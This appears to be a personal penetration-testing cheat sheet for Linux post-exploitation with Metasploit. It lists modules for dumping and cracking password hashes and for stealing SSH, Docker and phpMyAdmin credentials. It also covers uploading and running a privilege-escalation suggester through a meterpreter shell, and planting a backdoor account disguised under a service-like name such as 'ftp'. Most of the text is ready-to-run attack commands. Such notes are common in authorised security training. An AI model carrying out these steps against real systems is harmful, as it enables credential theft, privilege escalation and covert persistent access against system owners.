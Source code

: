 **Use `use post/linux/gather/hashdump` module to decode the hash by enter session id**

```shell
use auxiliary/analyze/crack_linux
```
> this is also use to decode the hash of password

```shell
use exploit/Linux/gather/hashdump
set sessions
run
```
> Use `loot` to see the password hash store in file and by simple cat command we see password hash

```shell
post/multi/gather/ssh_creds
post/multi/gather/docker_creds
post/linux/gather/ecryptfs_creds
post/linux/gather/enum_psk
post/linux/gather/enum_xchat -> (set XCHAT true)
post/linux/gather/phpmyadmin_credsteal
post/linux/gather/pptpd_chap_secrets
post/linux/manage/sshkey_persistence
```
> more usefull module

#### Linux Privilege Escalation

```url
github.com/mzet-/linux-exploit-suggester
```
> github repository

```shell
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

***after get the meterperter session***
```shell
upload ~/Desktop/Linux-Enum/les.sh
shell
bin/bash -i
chmod +x les.sh
./les.sh
```
> this tell the list of exploits. by this we get the privilage of linux

#### Establishing Persistence On Linux

**Only use in root user**
> First get the root use by exploit the service running and then sessions to meterpreter and then use chkrootkkit exploit the root and then upgrade to meterpreter to get the root user

> this will not be required if you have a root user access

```shell
shell
/bin/bash -i
useradd -m <user-name> -s /bin/bash
passwd <user-name> (set the password of that user)
```
- This is backdoor
- set the username is like `ftp`
> This will only run the target use ssh and remote access protocol
